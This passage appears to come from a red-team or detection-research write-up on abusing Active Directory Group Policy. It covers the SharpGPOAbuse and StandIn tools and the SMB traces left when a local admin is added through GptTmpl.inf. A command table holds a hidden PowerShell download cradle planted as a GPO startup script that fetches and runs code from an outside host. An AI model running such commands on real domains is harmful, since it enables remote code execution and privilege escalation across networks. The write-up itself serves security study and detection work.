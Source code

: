 **Tool**
- [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse/tree/d099eb9bc79059a2bfd25a30802bb73cf913d52f)

| Time  | Command   | Description   |
|:---------|:----|:----|
| 2023-01-05T07:40:43+00:00  | `execute-assembly /home/kali/Downloads/SharpGPOAbuse.exe --AddComputerScript --ScriptName "Evil_script.bat" --ScriptContents "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://100.100.100.100:80/a'))\"" --GPOName "Finance User GPO"` | Add a New Computer Startup Script |

---


## Add Local Admin

**Description**

> This attack is a bit different than other attacks. Attacker uses existing normal user as local admin of all computers under the vulnerable GPO. This allows attackers to elevate privilege from normal user to local admin on different machines. This can be a sneakier way of hacking without executing code on other computers. 

**Tools**
- [StandIn](https://github.com/FuzzySecurity/StandIn#gpo-add-local-admin)

### Findings

I used StandIn tool for adding local admin setting to GPO. 

The tool does few simple steps to add local admins to all computer accounts affected by this GPO
1. identifies the user SID 
2. SMB Writes GptTempl.inf file in Group Policy location
3. SMB Write to update Gpt.ini
4. Modify GpcExtensionNames and VersionNumber via LDAP

Core part of the attack is step 2, GptTemp.inf

File Location: `\\{DC-IP}\SYSVOL\{domain}\Policies\{GPLink}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf`

![](assets/local_admin_added_to_gpttemplate.png)

Only way to find out from the network if someone added a new local admin to the GPO is by looking at the payload of SMB WRITE to GptTmpl.inf because other benign operations could be writing to this file as well. 
